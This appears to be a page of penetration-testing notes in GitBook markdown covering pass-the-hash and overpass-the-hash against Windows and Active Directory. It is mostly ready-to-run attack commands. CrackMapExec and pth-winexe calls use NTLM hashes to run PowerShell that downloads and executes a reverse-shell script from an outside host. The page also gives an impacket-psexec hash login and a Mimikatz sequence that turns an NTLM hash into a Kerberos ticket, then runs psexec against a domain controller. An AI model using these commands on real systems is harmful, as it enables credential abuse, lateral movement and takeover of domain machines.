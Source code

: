 {% endcode %}

#### CME PtH for rev

{% code overflow="wrap" %}
```
(-p password) (-x cmd -X ps)
crackmapexec smb 172.16.1.200 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -X "iex(new-object net.webclient).downloadstring('http://172.16.1.30/rev.ps1')"
```
{% endcode %}

#### NTLM PtH with local Administrator / AD user (not applicable to kerberos)

{% hint style="info" %}
works with local admin right, 445
{% endhint %}

{% code overflow="wrap" %}
```
pth-winexe -U
Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e
//10.11.0.22 "powershell.exe -c iex(new-object net.webclient).downloadstring('http://172.16.1.30/rev.ps1')"

pth-winexe - U username%lmhash:nthash //{host} command

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 domain.local/Administrator@192.168.221.57 

may only use the :NThash part
```
{% endcode %}

#### NTLM -> TGT Overpass the hash - gain tickets as specific users (other logoned local admin)

{% hint style="info" %}
works with local admin right
{% endhint %}

{% code overflow="wrap" %}
```
#TGT only can use on the machine that it was created

after sekurlsa::logonpasswords

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
klist

(.\mimikatz.exe "sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:shell.exe" "exit"

NTLM -> TGT
#in new shell
net use \\dc01 (or any cmd that requires domain permissions and would subsequently initiate TGS)

klist

TGT -> RCE 
.\psexec.exe \\dc01 cmd.exe -accepteula (or -d -c C:\temp\shell.exe if placed in pivoter)
ipconfig && whoami

```
{% endcode %}

